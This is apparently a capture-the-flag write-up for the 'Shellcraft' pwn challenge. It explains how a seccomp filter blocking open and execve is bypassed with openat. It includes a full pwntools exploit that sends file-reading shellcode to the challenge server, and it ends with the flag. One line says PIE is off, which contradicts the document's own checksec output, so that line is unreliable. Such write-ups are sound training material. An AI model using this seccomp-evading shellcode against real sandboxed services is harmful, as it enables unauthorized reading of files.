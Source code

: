 # Shellcraft

## Challenge

The program reads shell code then executes it.

Seccomp filters are set to disallow the following syscalls:

- open
- clone
- fork
- vfork
- execve
- ptrace
- execveat

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

### Seccomp

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0013
 0006: 0x15 0x06 0x00 0x00000038  if (A == clone) goto 0013
 0007: 0x15 0x05 0x00 0x00000039  if (A == fork) goto 0013
 0008: 0x15 0x04 0x00 0x0000003a  if (A == vfork) goto 0013
 0009: 0x15 0x03 0x00 0x0000003b  if (A == execve) goto 0013
 0010: 0x15 0x02 0x00 0x00000065  if (A == ptrace) goto 0013
 0011: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

## Solution

While `open` is disallowed, we can use the `openat` syscall to read files.

We first use a `write` syscall to print a single arbitrary byte to signal that the shellcode is loaded.
Then we use a `read` call to read the filename to read from.

As PIE is off, we need to find a writable address to store this filename.
For this, we can use RBP as it is a pointer to the stack.

We then call `openat` with `AT_FDCWD` as our directory file descriptor to read the file with the given filename relative to the current directory.
This will give us a file handle stored in RAX.

We then read the contents of the file onto the stack and print it, which will display the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 20.216.39.14 --port 1236 shellcraft
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('shellcraft')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '20.216.39.14'
port = int(args.PORT or 1236)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      PIE enabled
# RWX:      Has RWX segments

io = start()

shellcode  = asm(shellcraft.write(1, 'rbp', 1))
shellcode += asm(shellcraft.read(0, 'rbp', 100))
shellcode += asm(shellcraft.openat('AT_FDCWD', 'rbp', 0))
shellcode += asm(shellcraft.read('rax', 'rbp', 100))
shellcode += asm(shellcraft.write(1, 'rbp', 100))

io.send(shellcode)

io.recv(1)

io.send(b"flag.txt\x00")

io.interactive()
```

## Flag

```
Securinets{56000a2e8205998dd69d74c30d6b1daca2863e66184c088b}
```
